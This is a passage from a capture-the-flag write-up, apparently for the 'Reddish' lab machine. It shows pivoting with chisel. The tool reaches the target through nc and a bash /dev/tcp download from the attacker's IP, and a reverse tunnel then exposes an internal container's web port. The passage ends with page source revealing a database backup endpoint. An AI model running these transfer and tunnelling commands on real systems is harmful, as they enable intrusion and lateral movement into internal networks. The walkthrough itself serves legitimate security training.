 Still only port 80. 

## Chisel Tunneling

Let’s upload chisel over so we can local port forward 80 to our host. First we need the right version. The box came out in 2018, so we probably need a 2018 chisel. We can find it in at https://github.com/jpillora/chisel/releases?page=3. Let’s download the latest version, 1.3.0

```bash
#on attack
nc -lnvp 8001 -q0 < chisel

#on target

cat < /dev/tcp/10.10.16.4/8001 > chisel
```

Now let’s start the server, connect from target and local port forward 80 from host .4:

```bash
#on attack
./chisel server -p 8005 -reverse -v

#local port forward
./chisel client 10.10.16.4:8005 R:80:172.19.0.4:80
```

Now let’s visit port 80 on our attack box:

```bash
http://localhost:80
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2013.png)

Viewing the page source, we find an interesting function:

```bash
					/*
							* TODO
							*
							* 1. Share the web folder with the database container (Done)
								* 2. Add here the code to backup databases in /f187a0ec71ce99642e4f0afbd441a68b folder
							* ...Still don't know how to complete it...
						*/
						function backupDatabase() {
								$.ajax({
										url: "8924d0549008565c554f8128cd11fda4/ajax.php?backup=...",
										cache: false,
										dataType: "text",
										success: function (data) {
											console.log("Database saved:", data);
										},
										error: function () {
										}
								});
						}
		</script>
```
